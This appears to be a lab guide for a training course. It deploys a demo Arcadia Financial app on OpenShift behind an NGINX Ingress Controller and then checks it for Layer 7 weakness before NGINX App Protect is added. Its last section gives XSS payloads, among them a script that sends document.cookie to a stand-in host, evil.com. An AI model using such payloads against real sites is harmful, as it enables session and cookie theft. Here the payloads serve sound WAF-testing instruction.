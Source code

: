 Access Arcadia app without NGINX App Protect to establish a baseline
------------------------------------------------

Cleanup Process
###############
Upon the completion of Lab Module 1, it's necessary to tidy up the lab environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

    .. code-block:: bash
      
       oc delete  virtualserver arcadia
       oc delete  -f arcadia.yml 


Deploy the Arcadia Application into Kubernetes
#######################################################

   .. note::  The Arcadia Financial application is the same application we introduced in Module 1, but a different version with enhanced features which will be used for our security lab exercises.


   Before we can access the Arcadia application, we need to deploy it into our Kubernetes cluster. To do this, we'll use a single manifest file that contains the necessary resources, such as Kubernetes deployments for the four Docker containers and Kubernetes services for the four Docker containers.

   To get the YAML file, we'll use the following command in our terminal window:

   .. code-block:: bash

    wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml

   Once we have the YAML file, we can apply it to our Kubernetes cluster with the following command:

   .. code-block:: bash

      oc apply -f ./arcadia-all.yaml


   We can check that our Arcadia application is running by using the following command in our terminal window:

   .. code-block:: bash

      oc get services

   This will show us the services running in our Kubernetes cluster, including those related to the Arcadia application.

Export the NGINX Ingress Controller services
#######################################################

    Interacting with the NGINX Ingress Controller is more comfortable with exporting the service External IPs into system variables. This allows for templating to take place when we expose our applications.

    In the terminal window copy the below text and paste+enter:

    .. code-block:: bash

       export nginx_ingress=$(oc get svc my-nginx-ingress-controller --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")


Publish Arcadia app with NGINX Plus Ingress Controller
########################################################

   Now that we have our Arcadia application deployed in our Kubernetes cluster, we need to publish it using the NGINX Plus Ingress Controller. We'll do this by re-creating the NGINX Ingress Controller with Basic HTTP using the following command in our terminal window:

   .. literalinclude :: templates/ingress-arcadia.yml
      :language: yaml

   This command creates a VirtualServer resource for our Arcadia application, which includes the host for the NGINX Ingress Controller and the upstreams for the different microservices. We can now access our Arcadia application externally using the NGINX Ingress Controller URL, which can be found by running the following command in our terminal window:

       .. code-block:: bash

         echo "NGINX Ingress Controller URL: http://$nginx_ingress/"

   Once we have the URL, we can access our Arcadia application by opening it in a web browser.


   You should be presented with the Main page, click on Login and enter the credentials as below.

   .. code-block:: 

      Username: matt
      Password: ilovef5

   When you click on Log me in, you should be presented with Arcadia application that consist of four microservices


   .. image:: ./pictures/image10.png
      :align: center

   Congratulations!

   You have now successfully deployed the application in K8s cluster and published it externally using the NGINX Plus Ingress controller


Is our application protected against Layer 7 attacks?
######################################################
 
Before we can protect our Arcadia application with NGINX App Protect, we need to check if it's currently vulnerable to Layer 7 attacks. We can do this by executing a simple XSS attack, which is a well-known OWASP top 10 attack.

To perform the XSS attack, we can launch the Firefox browser and append ``?a=<script>`` to the end of the application URL. If the request is allowed, then our application is vulnerable to XSS attacks.

.. image:: ./pictures/image11.png
   :align: center

We can further test this by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, which will attempt to steal our document cookie. If this request is also allowed, then a bad actor could potentially steal sensitive information from our application user

.. image:: ./pictures/image12.png
   :align: center

Since our application is currently vulnerable to Layer 7 attacks, we'll need to protect it using NGINX App Protect in the following Lab.

